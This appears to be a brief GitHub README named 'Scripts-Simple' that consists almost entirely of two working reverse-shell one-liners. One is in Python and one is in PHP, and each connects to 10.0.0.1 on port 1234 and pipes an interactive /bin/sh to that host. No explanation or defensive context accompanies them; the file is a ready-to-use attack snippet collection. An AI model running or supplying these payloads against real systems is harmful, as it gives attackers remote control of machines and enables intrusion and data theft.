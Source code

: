 # Scripts-Simple

### Python ReverseShell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php ReverseShell
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' `
